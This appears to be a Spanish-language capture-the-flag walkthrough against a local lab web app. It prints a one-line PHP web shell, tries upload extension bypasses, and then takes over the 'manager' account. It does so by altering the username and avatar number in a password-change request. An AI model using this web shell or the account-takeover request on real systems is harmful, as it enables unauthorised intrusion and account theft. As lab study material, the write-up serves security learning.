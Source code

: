 Nos registramos en la siguiente **URL**:
```bash
http://172.17.0.2/register.php
```

Nuestras credenciales de acceso:
```bash
username: test
password: test
```

En cuenta tenemos lo siguiente, Un panel donde nos permite subir un **avatar** y el avatar que subamos al parecer se almacena en esta ruta:
```bash
http://172.17.0.2/uploads/avatars/
```

Ya subiendo una imagen **png** vemos que se carga, Ahora intentaremos ver si podemos cargar un archivo maliciosos **php** que nos permita realizar una llamada a nivel de sistema para ejecutar un comando:
**cmd.php**
```php
<?php
  system($_GET["cmd"]);
?>
```

Al intentar cargar nuestro archivomalicioso no nos deja:
```bash
Solo se permiten archivos JPG, PNG o GIF con extensión válida.
```

Ahora lo que aremos es interceptar la peticion para realizar un ataque de extensiones:
Una ves interceptada la peticion, Probaremos direfentes tipos de extensiones que nos proporciona la web [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html?highlight=php%20exte#file-upload-general-methodology)
**Nota** No se hemos logrado colar un archivo malicisoso asi que lo siguiente que aremso es intentar cambiar nuestra contrasena e interceptar nuestra peticion:
```bash
username=test&numero=5032720792366351&new_password=test1&confirm_password=test1
```

Y desde la respuesta tenemos lo siguiente:
```bash
<img src="uploads/avatars/5032720792366351.jpg" alt="Avatar" class="avatar">
```

Sabemos que antes de subir una imagen como avatar ya existia la siguiente imagen:
```bash
[5597527595641235.jpg](http://172.17.0.2/uploads/avatars/5597527595641235.jpg)|2025-05-12 20:11|53K||
```

Ahora tambien sabemos que existe un autor **manager**
```bash
Autor: manager
```

Si que probaremos si es valido para intentar cambiarle su contrasena: quedando asi la peticion final:
```bash
username=manager&numero=5597527595641235&new_password=12345&confirm_password=12345
```
